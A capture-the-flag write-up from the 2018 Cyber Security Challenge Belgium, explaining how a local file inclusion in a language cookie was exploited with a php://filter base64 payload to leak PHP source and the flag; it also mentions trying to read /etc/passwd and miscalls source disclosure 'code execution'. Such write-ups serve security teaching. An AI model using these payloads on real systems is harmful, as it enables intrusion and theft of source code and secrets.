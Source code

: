 # Cyber Security Challenge Belgium: water-you-talking-about-50

**Category:** Web Security
**Points:** 50
**Solves:** 15
**Description:**

> (missing description)

## Write-up

I do not have the description anymore but it said something along the lines of *The flag is a russian word lost in translation*

![index.php]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/index.jpg "index.php")

When visiting the website we are greeted by a modern design of a Hydropump 2.1 installation. Because of the description I immediatly start browsing looking for a russian word which did not get translated. Nothing turns up for a while so I click on `Pусский` to get the russian version of the site. Still nothing... Time to dig a little deeper!

```
GET / HTTP/1.1
Host: **.***.***.***
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=en; ci_session=lmqa66bn85is3ruuls9301um2ivs86tq
Connection: close
Upgrade-Insecure-Requests: 1
```

I look at the request in Burp Suite and try a few basic tricks, still nothing...
However, when fiddling around with the language cookie I noticed some php errors turned up! Aha! We have some file inclusion going on here!

![php_error]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/php_error.jpg "php_error")

Trying to get /etc/passwd will not work because .php is appended and trying to use string terminators like %00 won't work, we have to try something else here. I tried to include remote files by specifying a URL as parameter, sadly allow_url_include was turned off so that failed.
PHP has a thing called filter, via this command we can use `php://filter/convert.base64-encode/resource=index` as a payload to get code execution in our lang cookie and get the php sourcecode of the index page in a base64 string. Now it was simply finding the right file that contains the flag and surely enough `php://filter/convert.base64-encode/resource=ru` gave us the flag!

![ru.php in base64]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/ru.jpg "ru.php in base64")

**Decoded**:

```
<?php
$footer = "&copy; Secure Operational Systems (SoS) 2017";

$welcome = "Добро пожаловать в контрольную панель для установки Hydropump 2.1, которая позволяет вам контролировать и конфигурировать состояние активной установки гидронасоса. Если у вас есть какие-либо вопросы, обратитесь в службу поддержки по телефону +1 294 234 098";
$signinbtn = "войти в систему";
$adminwelcome = "Добро пожаловать в админ-панель. Пожалуйста, выберите ваш выбор из вариантов ниже";
$adminvalve = "Вы можете управлять всеми клапанами ниже. Обратите внимание, что клапан не может быть отключен, если давление слишком велико.";
$adminsafety = "Всегда помните о соблюдении техники безопасности!";
$inspect = "Проверить";
$inspectlong = "Убедитесь, что все ваши загруженные параметры правильны, запустив их в соответствующей среде тестирования. Проблемы с конфигурацией - это проблема номер один с развертываниями и не покрываются вашим соглашением об обслуживании.";
$submit = "Отправить";
$submitlong = "Отправьте свои настройки на бэкэнд. Обратите внимание, что до новых настроек может пройти до трех циклов. Если никаких изменений не произошло, обратитесь в службу поддержки.";
$validate = "Проверить";
$validatelong = "После отправки убедитесь, что ваши настройки имеют желаемый эффект. Если что-то не так, вернитесь к предыдущей конфигурации как можно скорее.";

$historytitle = "Ниже перечислены все файлы, которые были загружены в прошлом. Обратите внимание, что они очищаются каждые 10 минут, чтобы система не становилась чистой и чистой.";

$enterconfig = "Пожалуйста, введите новые конфигурационные файлы.";

$btnupdate = "Обновить конфигурацию";
$btnview = "Просмотр истории конфигурации";
$btncontrol = "Управление клапаном";
$statetitle = "Текущий рабочий статус. Для внесения изменений необходимо пройти аутентификацию.";


$flag = "CSCBE{LFI_through_BASE64_FTW}";

?>


```